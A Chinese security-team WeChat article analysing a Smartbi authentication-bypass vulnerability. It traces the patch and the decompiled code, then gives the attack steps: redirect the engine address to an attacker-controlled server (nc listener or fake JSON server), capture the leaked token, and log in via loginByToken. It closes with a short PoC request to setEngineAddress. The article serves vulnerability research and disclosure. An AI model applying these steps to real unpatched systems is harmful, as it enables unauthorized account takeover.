 #  【复现】Smartbi 权限绕过漏洞详细分析

原创 CVES实验室  [ 山海之关 ](javascript:void\(0\);)

**山海之关** ![]()

微信号 shg-sec

功能介绍 山海关安全团队公众号。

____

___发表于_

收录于合集

#漏洞复现 1 个

#poc 1 个

![]()********

**免责声明**

 **1\. 本文仅用于技术交流，目的是向相关安全人员展示漏洞的存在和利用方式，以便更好地 提高网络安全意识和技术水平。**

 **2\. 任何人不得利用本文中的技术手段进行 非法攻击和侵犯他人的隐私和财产权利。一旦发生任何违法行为，责任自负。**

 **3\. 本文中提到的漏洞验证 poc  仅用于授权测试，任何未经授权的测试均属于非法行为。请在法律许可范围内使用此 poc。**

 **4\. CVES实验室对使用此 poc 导致的任何直接或间接损失不承担任何责任。使用此 poc 的 风险由使用者自行承担。**

 **消息来源**

  * 

    
    
     https://www.smartbi.com.cn/patchinfo

 **漏洞分析**

 **补丁情况如下：**

![]()

 **通过查看 patch.patches 文件可知要请求的路由。**

![]()

 **然后再查看 RejectSmartbixSetAddress.class 文件，可知具体存在危险的类名和方法名。**

![]()

 **查看 smartbix.datamining.service.MonitorService#getToken 方法，在第⼀个红框说明请
求权限(不需要登录)；第二个红框的作用是配置⼀个Token并返回其字符串内容(此处不做详细跟进)；第三个红框则是将Token发送给对应服务器。**

 **其中：**

 **experiment - > EngineAddress , **

 **service- >ServiceAddress **

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    # EngineApipublic static <T> T postJsonEngine(String type, Object data, Class<T> dataType, Object... values) throws Exception {    String url = EngineUrl.getUrl(type, values);    return HttpKit.postJson(url, data, dataType);}  
    # EngineUrlpublic static String getUrl(String val, Object... values) {    EngineUrl engineUrl = null;  
        try {        engineUrl = valueOf(val);    } catch (Exception var6) {        throw SmartbiXException.create(CommonErrorCode.ILLEGAL_PARAMETER_VALUES).setDetail(val);    }  
        if (engineUrl != null && engineUrl.url != null) {        String url = engineUrl.url;        url = String.format(url, values);        if (url.contains("lang=")) {            Locale currentLocale = LanguageHelper.getCurrentLocale();            String language = currentLocale.toString();            url = MessageFormat.format(url, EngineApi.address("engine-address"), language);        } else {            url = MessageFormat.format(url, EngineApi.address("engine-address"));        }  
            return url;    } else {        throw SmartbiXException.create(CommonErrorCode.NOT_FOUND_RIGHT_PATH).setDetail(val);    }}  
    # EngineApipublic static String address(String type) {    if (type.equals("engine-address")) {        return SystemConfigService.getInstance().getValue("ENGINE_ADDRESS");    } else if (type.equals("service-address")) {        return SystemConfigService.getInstance().getValue("SERVICE_ADDRESS");    } else {        return type.equals("outside-schedule") ? SystemConfigService.getInstance().getValue("MINING_OUTSIDE_SCHEDULE") : "";    }}

 **跟进 EngineApi#postJsonEngine 方法中，然后调用  EngineUrl#getUrl
方法获取要请求的URL，其中请求路由可以通过自身获取，请求的IP地址则通过调用 EngineApi#address
方法获取。EngineApi#address 则是通过 SystemConfigService 获得要请求的IP地址。**

 **一开始已经提到补丁中的方法名，通过那几个方法名可以设置对应的地址。**

![]()

 **使用  @RequestBody 注解，所以请求头中不能使用 Content-Type: application/x-www-form-
urlencoded ，否则就会对值进行url编码，导致后续利用失败。在第⼆个红框中则是对 SystemConfigService 对应键进行更新。**

 **通过上面说的两个方法，正常就可以获得 token 值。那么接下来就是进行登录。**

![]()

 **通过 loginByToken 方法就可以获取Cookie。**

![]()

 **但有可能返回的值是 false ，这是由于在调用  getToken
方法时，使用了nc监听或者返回的值不是json格式，导致报错，那么你的token就没被存入对应的变量中，这时候你就需要编写⼀个 fake server
，返回任意的json格式即可。**

 **小坑**

 **按照上面说的坑开始翻代码 从 this.catalogService.loginByToken(token) 进入，不断跟进方法。**

 **最后跟进 smartbi/repository/AbstractDAO#load 方法中，如下图：**

![]()

 **load 方法代码如下：**

![]()

 **差别主要就在：**

 **obj = this.daoModule.load(this.domainClass.getName(), id); ， 从此**

 **处跟进去后就开始各种绕，此处不进行过多描述。**

 **直接在**
**org.hibernate.event.def.DefaultLoadEventListener#loadFromSecondLevelCa**
**che 下断点。**

![]()

 **当你用⼀个正常返回获得的token在此处是取得到值的；但是如果是异常退出或nc监听的话此处取的则是
null。后续返回null的话则会存在缓存，可以看上图。**

 **然后再去看 getToken 方法。在该方法结束后，进程是还没有结束的，此处将断点打在**

 **org.hibern ate.action.EntityInsertAction#afterTransactionCompletion**

![]()

 **这里就是将token存入对应变量中，这样后续登录才能找到值。而如果是异常退出是不会执行该方法的， nc监听也不会走到这里。**

 **若有不对的地方，还请师傅们指点和纠正。**

 **修复建议**

 **官方已经发布修复补丁。**  

 **poc**

  *   *   *   *   *   * 

    
    
     POST /smartbi/smartbix/api/monitor/setEngineAddress HTTP/1.1Host: urlContent-Type: application/jsonContent-Length: x  
    http://url

 **CVES实验室**

       ** **“CVES实验室”(www.cves.io)由团队旗下 **SRC组与渗透组合并而成，** 专注于漏洞挖掘、渗透测试与情报分析等方向。近年来我们报送漏洞总数已达八万余个，其中包含多个部级单位、多个通信运营商、Apache、Nginx、Thinkphp等，获得CNVD证书、CVE编号数百个，在不同规模的攻防演练活动中获奖无数，协助有关部门破获多起省督级别的案件。****

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

